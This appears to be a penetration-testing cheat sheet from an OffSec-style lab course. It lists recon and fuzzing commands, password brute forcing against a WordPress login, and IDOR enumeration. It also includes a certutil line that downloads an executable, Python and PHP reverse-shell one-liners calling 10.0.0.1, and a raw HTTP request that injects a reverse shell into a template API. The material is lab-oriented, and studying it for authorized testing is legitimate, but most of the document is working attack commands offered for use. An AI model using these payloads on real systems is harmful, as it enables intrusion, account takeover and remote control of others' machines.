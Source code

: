 ### NMAP
nmap -p80 --script=http-enum 172.16.80.1

nmap -p80 --script=http-methods --script-args http-methods.url-path='/wp-includes/' $IP

nmap -p80 -sV --script http-wordpress-enum offsecwp

### CEWL

sudo cewl -d 2 -m 5 -w ourWordlist.txt www.MegaCorpOne.com

ls -sa /usr/bin | sed 's/[0-9]*//g' | sed -r 's/\s+//g' |sort -u > $HOME/binaries-wordlist.txt

### GOBUSTER


gobuster dir -u $URL -w /usr/share/wordlists/dirb/common.txt -t 5 -b 301

gobuster dns -d megacorpone.com -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 30

### CERTUTIL

certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe


### HAKRAWLER

sudo apt-get install -y hakrawler
which hakrawler

echo "https://www.megacorpone.com/" > urls.txt
cat urls.txt |./hakrawler


### WFUZZ

#### Discover files:

export URL="http://offsecwp:80/FUZZ"
echo $URL

wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt --hc 301,404,403 "$URL"

#### Discover Directories:

export URL="http://offsecwp:80/FUZZ/"
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt --hc 404,403,301 "$URL"

#### Parameter Discovery:

export URL="http://offsecwp:80/index.php?FUZZ=data"
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt --hc 404,301 "$URL"

#### Fuzzing Parameter Values:

wfuzz -c -z file,/usr/share/seclists/Usernames/cirt-default-usernames.txt --hc 404,301 http://offsecwp:80/index.php?fpv=FUZZ

One might need to adjust excluded response code.

wfuzz -c -z file,/usr/share/seclists/Fuzzing/XSS/XSS-BruteLogic.txt  --hh 0  http://offsecwp:80/index.php?xss=FUZZ


#### Fuzzing POST Data:

wfuzz -c -z file,/usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt --hc 404 -d "log=admin&pwd=FUZZ" http://offsecwp:80/wp-login.php

export URL="http://offsecwp:80/wp-login.php"

wfuzz -c -z file,/usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt --hc 404 -d "log=admin&pwd=FUZZ" --hh 7201 "$URL"

wfuzz -c -z file,/usr/share/seclists/Fuzzing/5-digits-00000-99999.txt --hc 404 --hh 2873 -H "Cookie: PHPSESSID=2a19139a5af3b1e99dd277cfee87bd64" http://idor-sandbox:80/user/?uid=FUZZ

### CURL

curl -s http://idor-sandbox:80/user/?uid=62718 -w '%{size_download}'

curl -s /dev/null http://idor-sandbox:80/user/?uid=91191 -w '%{size_download}' --header "Cookie: PHPSESSID=2a19139a5af3b1e99dd277cfee87bd64"

### SHELLS

#### Python reverse shell:

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

#### PHP Reverse Shell:

php -r '$sock=fsockopen("10.0.0.1",80);exec("/bin/sh -i <&3 >&3 2>&3");'

php -r '$sock=fsockopen("10.0.0.1",80);shell_exec("/bin/sh -i <&3 >&3 2>&3");'

php -r '$sock=fsockopen("10.0.0.1",80);system("/bin/sh -i <&3 >&3 2>&3");'

php -r '$sock=fsockopen("10.0.0.1",80);passthru("/bin/sh -i <&3 >&3 2>&3");'

php -r '$sock=fsockopen("10.0.0.1",80);popen("/bin/sh -i <&3 >&3 2>&3", "r");'




<?php

passthru("python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.49.194\",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")'");

?>



POST /api/php HTTP/1.1

Host: 192.168.194.101

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0

Accept: application/json, text/plain, */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/json;charset=utf-8

Content-Length: 285

Origin: http://192.168.194.101

Connection: close

Referer: http://192.168.194.101/


{"template":"\n\npassthru(\"python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\\\"192.168.49.194\\\",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\\\"/bin/bash\\\")'\");\n\n","vars":{}}


